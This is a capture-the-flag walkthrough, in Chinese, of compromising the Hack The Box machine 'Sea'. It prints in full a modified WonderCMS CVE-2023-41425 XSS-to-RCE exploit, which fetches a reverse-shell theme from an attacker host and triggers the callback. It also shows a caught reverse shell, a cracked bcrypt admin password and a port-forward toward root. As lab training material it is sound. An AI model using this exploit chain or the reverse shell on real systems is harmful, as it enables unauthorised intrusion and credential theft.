








# 服务
```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A -O  10.10.11.28 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-12 04:52 EDT
Nmap scan report for 10.10.11.28
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e354e072203c014293d1669d900cabe8 (RSA)
|   256 f3244b08aa519d56153d6756747c2038 (ECDSA)
|_  256 30b105c64150ff22a37f41060e67fd50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sea - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/12%OT=22%CT=1%CU=38139%PV=Y%DS=2%DC=T%G=Y%TM=66B9CD8
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST1
OS:1NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT       ADDRESS
1   294.45 ms 10.10.16.1
2   551.18 ms 10.10.11.28

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.49 seconds

```

contact页面跳到一个域名：sea.htb



加域名
```
echo "10.10.11.28 sea.htb" >> /etc/hosts
echo "10.10.11.28 www.sea.htb" >> /etc/hosts
```


dir
```
┌──(root㉿kali)-[~]
└─# python3 /root/dirsearch/dirsearch.py -u http://10.10.11.28/     

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                    
 (_||| _) (/_(_|| (_| )                                                                                             
                                                                                                                    
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10929

Output File: /root/dirsearch/reports/10.10.11.28/-_24-08-12_05-26-29.txt

Error Log: /root/dirsearch/logs/errors-24-08-12_05-26-29.log

Target: http://10.10.11.28/

[05:26:30] Starting:                                 
[05:28:30] 200 -    4KB - /0                                                
[05:28:45] 200 -    3KB - /404                                                                        
[05:30:35] 403 -  199B  - /admin%20/                                        
[05:30:51] 200 -    4KB - /admin/home                                         
[05:34:02] 200 -    3KB - /contact.php                                      
[05:34:18] 301 -  232B  - /data  ->  http://10.10.11.28/data/               
[05:34:18] 403 -  199B  - /data/                                            
[05:34:19] 403 -  199B  - /data/files/                                      
[05:35:43] 200 -    4KB - /home                                             
[05:36:02] 200 -    4KB - /index.php                                        
[05:36:04] 200 -    4KB - /index.php/login/                                                                  
[05:37:13] 301 -  236B  - /messages  ->  http://10.10.11.28/messages/       
[05:38:10] 403 -  199B  - /phpliteadmin%202.php                             
[05:38:35] 301 -  235B  - /plugins  ->  http://10.10.11.28/plugins/                                            
[05:40:17] 200 -    4KB - /sym/root/home/                                   
[05:40:31] 301 -  234B  - /themes  ->  http://10.10.11.28/themes/           
[05:40:32] 403 -  199B  - /themes/                                           
```


contact.php页面，website字段填本地kali的一个地址：



收到来访数据

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.28] 38666
GET /any HTTP/1.1
Host: 10.10.16.3
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate

```


探测到一个bike目录
```
┌──(root㉿kali)-[~/htb/sea]
└─# python3 /root/dirsearch/dirsearch.py -u http://10.10.11.28/themes/ -w /usr/share/wordlists/Web-Content/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                    
 (_||| _) (/_(_|| (_| )                                                                                             
                                                                                                                    
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 220545

Output File: /root/dirsearch/reports/10.10.11.28/-themes-_24-08-13_03-32-46.txt

Error Log: /root/dirsearch/logs/errors-24-08-13_03-32-46.log

Target: http://10.10.11.28/themes/

[03:32:47] Starting: 
[03:32:55] 200 -    4KB - /themes/home                                     
[03:34:14] 200 -    3KB - /themes/404                                      
[03:36:42] 403 -  199B  - /themes/%20                                      
[03:41:09] 301 -  239B  - /themes/bike  ->  http://10.10.11.28/themes/bike/

```

探测bike目录
```
└─# python3 /root/dirsearch/dirsearch.py -u http://10.10.11.28/themes/bike/

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10929

Output File: /root/dirsearch/reports/10.10.11.28/-themes-bike-_24-08-13_03-43-18.txt

Error Log: /root/dirsearch/logs/errors-24-08-13_03-43-18.log

Target: http://10.10.11.28/themes/bike/

[03:43:19] Starting:                               
[03:45:13] 200 -    3KB - /themes/bike/404                                  
[03:45:39] 200 -    1KB - /themes/bike/LICENSE                              
[03:45:47] 200 -  318B  - /themes/bike/README.md                            
[03:45:47] 403 -  199B  - /themes/bike/Read%20Me.txt                        
[03:46:44] 403 -  199B  - /themes/bike/admin%20/                            
[03:46:59] 200 -    4KB - /themes/bike/admin/home                           
[03:47:45] 500 -    0B  - /themes/bike/admin_top.jsp                        
[03:47:45] 500 -    0B  - /themes/bike/admin_top.php
[03:49:16] 400 -  303B  - /themes/bike/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[03:49:54] 301 -  243B  - /themes/bike/css  ->  http://10.10.11.28/themes/bike/css/
[03:51:06] 200 -    4KB - /themes/bike/home                                 
[03:51:15] 301 -  243B  - /themes/bike/img  ->  http://10.10.11.28/themes/bike/img/
[03:55:08] 200 -    4KB - /themes/bike/sym/root/home/                       
[03:56:00] 200 -    6B  - /themes/bike/version   
```

README.md显示是一个```WonderCMS```的web app
version显示版本是：3.2.0

使用[CVE-2023-41425](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413)

但是这个exp需要调整：

修改这两个地方


```
# Exploit: WonderCMS XSS to RCE
import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLog+"/?installModule=http://10.10.16.3:8000/revshell-main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")

```

执行
```
python3 exp.py http://sea.htb/loginURL 10.10.16.3 443
```

然后粘贴命令再bs上发送链接



收到返回数据




似乎无法直接反弹，在网页上触发payload
```http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.3&lport=443```


收到rev shell

```
┌──(root㉿kali)-[~/htb/sea]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.28] 53452
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 09:47:28 up 14:33,  1 user,  load average: 1.21, 1.03, 0.99
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```


发现一个加密的密码
```
$ ls
cache.json
database.js
files
$ cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/08\/13 09:49:57": "127.0.0.1",
            "2024\/08\/13 09:48:26": "127.0.0.1",
            "2024\/08\/13 09:46:56": "127.0.0.1",
            "2024\/08\/13 09:45:26": "127.0.0.1",
            "2024\/08\/13 09:43:56": "127.0.0.1"

```

破解密码,注意要把反斜杠去掉：
```
┌──(root㉿kali)-[~/htb/sea]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mychemicalromance (?)     
1g 0:00:01:03 DONE (2024-08-13 05:52) 0.01574g/s 48.18p/s 48.18c/s 48.18C/s iamcool..memories
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

横向提权到amay
```
www-data@sea:/var/www/sea/data$ su amay
su amay
Password: mychemicalromance

amay@sea:/var/www/sea/data$    
```

# 提权

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                             
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                         
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:36889         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22       
```

转发8080端口到kali本地的8000
```
ssh -L 8000:127.0.0.1:8080 amay@10.10.11.28 -N
```

使用上面amay的登录凭据




Analyze Log File这个命令可以注入




不过rev shell很快就断掉了

